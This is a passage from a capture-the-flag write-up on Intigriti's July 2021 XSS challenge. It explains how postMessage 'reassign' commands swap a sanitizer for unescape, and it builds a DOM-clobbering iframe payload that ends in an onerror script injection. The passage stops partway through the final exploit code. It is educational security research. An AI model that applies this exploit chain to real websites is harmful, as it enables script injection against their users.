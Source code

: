 ``` js
win.frames[1].postMessage({
    cmd: 'reassign',
    message:{
      a: 'Z',
      b: 'x+1'
    },
    credentials
}, '*')
```

This is equivalent to `Z=x+1`, and when `x+1` is automatically converted to a string, `Z` will be a string containing our payload.

## Level 5: Bypassing Encode

Although we can now pass in a string, there is still one thing to do. The contents of `href` are URL-encoded, so `<` becomes `%3C`:

``` js
var a = document.createElement('a')
a.setAttribute('href', 'ftp://a:a@a#<img src=x onload=alert(1)>')
console.log(a+1)
// ftp://a:a@a/#%3Cimg%20src=x%20onload=alert(1)%3E1
```

What should we do now?

In `log`, there is a line that says `data = parse(data)`, and the code for `parse` is like this:

``` js
let parse = (e) => (typeof e === 'string') ? s(e) : JSON.stringify(e, null, 4); // make object look like string
```

If `e` is a string, it returns `s(e)`, and `s` is another function.

When I was looking at the code, I noticed the rules for `eval` checking at the reassign part: `RegExp = /^[s-zA-Z-+0-9]+$/;`, and these four functions:

``` js
let a = (s) => s.anchor(s);
let s = (s) => s.normalize('NFC');
let u = (s) => unescape(s);
let t = (s) => s.toString(0x16);
```

Among them, `s`, `u`, and `t` are allowed, which means that they can be swapped using the `reassign` command! We can replace `s` with `u`, so that `data` will be unescaped!

So the final code will look like this:

``` js
const htmlUrl = 'https://challenge-0721.intigriti.io/htmledit.php?code='
const insertPayload=`<img src=x onerror=alert(1)>`
const payload = `
  <a id="DEV"></a>
  <iframe name="store" srcdoc='
    <a id="users"></a>
    <a id="users" name="admin" href="ftp://a:a@a#${escape(insertPayload)}"></a>
  '></iframe>
  <iframe name="iframeConsole" src="https://challenge-0721.intigriti.io/console.php"></iframe>
`

var win = window.open(htmlUrl + encodeURIComponent(payload))

// 等待 window 載入完成
setTimeout(() => {
  console.log('go')
  const credentials = {
```